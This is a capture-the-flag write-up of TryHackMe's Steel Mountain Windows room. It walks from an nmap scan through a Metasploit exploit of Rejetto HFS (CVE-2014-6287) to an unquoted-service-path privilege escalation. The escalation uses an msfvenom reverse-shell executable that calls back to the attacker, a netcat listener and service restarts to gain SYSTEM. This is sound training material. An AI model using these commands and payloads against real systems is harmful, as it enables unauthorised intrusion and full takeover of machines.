**Room Link : https://tryhackme.com/room/steelmountain**

# Introduction

Welcome to my writeup for the **Steel Mountain** room on TryHackMe. This room is a "Mr. Robot" themed Windows challenge where we will enumerate the machine, gain initial access using Metasploit, and then use PowerShell to enumerate the system for privilege escalation vectors.

Let's dive in!

# Task 1 : Introduction

After deploying the machine, I accessed the web server running on port 80 to look for clues.

```bash
# Accessing the web server
http://10.66.180.12/
```
The homepage displayed a picture of the "Employee of the Month". following the hint, I performed a Reverse Image Search on the photo.


Google Images identified the person as *Bill Harper* (a character from the TV show Mr. Robot).

> **Answer 1**
>
>> Who is the employee of the month?
>
>> `Bill Harper`

# Task 2 : Initial Access

## Nmap Scan

I started by deploying the machine and running a standard Nmap scan to identify open ports.

```bash
nmap -sV -T5 -sC 10.66.180.12 -Pn -o nmap_scan
```
My scan returned a wealth of information. We are dealing with a Windows Server (likely 2008 R2 or 2012 based on the SMB version), and there are several interesting attack vectors exposed.

Here is the relevant output from my scan:

```bash
cat nmap_scan
```
```text

Not shown: 988 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 8.5
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Microsoft-IIS/8.5
| http-methods:
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-01-24T18:50:25+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=steelmountain
| Not valid before: 2026-01-23T18:43:46
|_Not valid after:  2026-07-25T18:43:46
| rdp-ntlm-info:
|   Target_Name: STEELMOUNTAIN
|   NetBIOS_Domain_Name: STEELMOUNTAIN
|   NetBIOS_Computer_Name: STEELMOUNTAIN
|   DNS_Domain_Name: steelmountain
|   DNS_Computer_Name: steelmountain
|   Product_Version: 6.3.9600
|_  System_Time: 2026-01-24T18:50:19+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8080/tcp  open  http          HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-server-header: HFS 2.3
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49156/tcp open  msrpc         Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: STEELMOUNTAIN, NetBIOS user: <unknown>, NetBIOS MAC: 02:bd:91:50:6d:e5 (unknown)
| smb2-security-mode:
|   3.0.2:
|_    Message signing enabled but not required
|

```
## Analysis of Open Ports

**Web Servers (80 & 8080): The machine is running two web servers.**

- Port 80: A standard Microsoft IIS 8.5 server.

- Port 8080: This stands out immediately. It is running HttpFileServer (HFS) 2.3. This is non-standard software and often a goldmine for vulnerabilities.

**Remote Access (3389 & 5985):**

- Port 3389 (RDP): Remote Desktop is open. If we get credentials, we can log in via GUI.

- Port 5985 (WinRM): This is the Windows Remote Management port. This is crucial for PowerShell remoting and often indicates we can execute commands remotely if we find valid credentials.

**SMB (139 & 445): Standard Windows file sharing. We might be able to enumerate shares or users here later.**

> **Answer 2**
>
>> Scan the machine with nmap. What is the other port running a web server on?
>
>> `8080`

### Web Server Enumeration (Port 8080)

Nmap identified port 8080 as `HttpFileServer 2.3`. To get more details, I visited the service in my browser.



The page loaded a file sharing interface. Looking at the page footer (or searching online for "HFS 2.3"), I found a link, When I accessed it I identified the full software name as Rejetto HTTP File Server.



> **Answer 3**
>
>> Take a look at the other web server. What file server is running?
>
>> `Rejetto HTTP File Server`

### Vulnerability Research

With the software version identified as **Rejetto HTTP File Server 2.3** and the hint that suggest using *https://www.exploit-db.com/*

I navigated to **Exploit-DB** to check for known vulnerabilities.

I searched for "Rejetto HTTP File Server" and found several results. One specific entry stood out: **Rejetto HTTP File Server (HFS) - Remote Command Execution (Metasploit)**.



Clicking into the exploit details revealed the CVE number associated with this high-severity Remote Code Execution (RCE) vulnerability.



> **Answer 4**
>
>> What is the CVE number to exploit this file server?
>
>> `2014-6287`

## Metasploit Exploitation

With the CVE identified (`CVE-2014-6287`), I launched Metasploit to attempt a remote code execution attack.
```bash
msfconsole
```

First, I searched for the vulnerability module and I selected the  `exploit/windows/http/rejetto_hfs_exec` module.
you can use it also by just typing its number identified by `#` ( **msf> use 0**)

```bash
msf> search 2014-6287
```


### Configuration

I needed to set specific options for the exploit to work:
So first I will show the options needed for the exploit.



I found and set 3 important options :

- RHOSTS: The target IP (10.66.180.12).

- RPORT: Changed to 8080 (since the HFS server is not on the default port 80).

- LHOST: My tun0 VPN IP.



### Execution

With the payload configured, I ran the exploit.
```bash
msf> run
#or exploit
```
The exploit successfully staged the payload and opened a Meterpreter session.



## Retrieving the Flag

Once inside, I verified my user context (STEELMOUNTAIN\bill) and navigated to Bill's desktop to find the user flag.





> **Answer 5**
>
>>Use Metasploit to get an initial shell. What is the user flag?
>
>> `b04763b6fcf51fcd7c13**********`

# Task 3 : Privilege Escalation

## Enumeration with PowerUp

To identify potential privilege escalation vectors, I used the **PowerUp.ps1** script.

First, I downloaded the script to my local machine :
```bash
 wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
```
After that I uploaded it to the target via my existing Meterpreter session.

```bash
meterpreter > upload PowerUp.ps1
meterpreter > load powershell
meterpreter > powershell_shell
```
Once inside the PowerShell environment, I loaded the script and ran the checks.

```PowerShell
PS > . .\PowerUp.ps1
PS > Invoke-AllChecks
```



The script identified a service with an Unquoted Service Path vulnerability and, critically, the CanRestart option was set to True. This means we can restart the service to trigger our payload.

> **Answer 6**
>
>> Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?
>
>> `AdvancedSystemCareService9`

> [!NOTE]
> The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!


## Exploitation

The vulnerability discovered was an **Unquoted Service Path** in `AdvancedSystemCareService9`. The service path was:
`C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe`

Because the path contains spaces and is unquoted, Windows attempts to execute files in this order:
1. `C:\Program.exe`
2. `C:\Program Files.exe`
3. `C:\Program Files (x86)\IObit\Advanced.exe` <--- **Target**
4. ...and so on.

Since we have write permissions to the `IObit` directory, we can plant a malicious executable named `Advanced.exe`, restart the service, and Windows will run our file with **LocalSystem** privileges.

### Step 1: Generating the Payload

I generated a reverse shell payload named `Advanced.exe` using `msfvenom`.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
```


### Step 2: Uploading the Payload

Back in my Meterpreter session, I navigated to the target directory and uploaded the malicious binary.

```bash 

cd "C:/Program Files (x86)/IObit"
upload Advanced.exe

```
### Step 3: Triggering the Exploit

I started a Netcat listener on my attack machine to catch the shell.

```bash

nc -lvnp 4443

```
Then, I dropped into a system shell on the target machine and manually restarted the service to trigger the execution of Advanced.exe.

```bash

# Inside Meterpreter
shell

# Command Prompt
sc stop AdvancedSystemCareService9
sc start AdvancedSystemCareService9

```



### Step 4: Root Flag

As soon as the service started, my listener caught the connection. I verified my identity as **nt authority\system (Administrator)** and retrieved the final flag.



```cmd

whoami

cd C:\Users\Administrator\Desktop\

type root.txt

```


> **Answer 7**
>
>> What is the root flag?
>
>> `9af5f314f57607c00fd09803**********`


# Conclusion

Steel Mountain is a fantastic room for practicing Windows privilege escalation fundamentals. We started by enumerating the machine and discovering a vulnerable file server (**Rejetto HFS**). We explored two distinct paths to compromise the machine:

1.  **Metasploit:** Utilizing `CVE-2014-6287` for immediate access.
2.  **Manual Enumeration:** Using `PowerUp.ps1` to identify an **Unquoted Service Path** vulnerability in `AdvancedSystemCareService9`.

By replacing the service binary with our own payload and restarting the service, we successfully escalated our privileges from a standard user to **NT AUTHORITY\SYSTEM**.

## Challenge for the Reader

While using Metasploit is fast, I highly recommend attempting **Task 4** of this room on your own. It challenges you to exploit the machine without Metasploit, using Python scripts and a static Netcat binary. Understanding how to manually transfer files and catch shells without `meterpreter` is a critical skill for the OSCP and real-world engagements.

Thanks for reading! Happy Hacking.
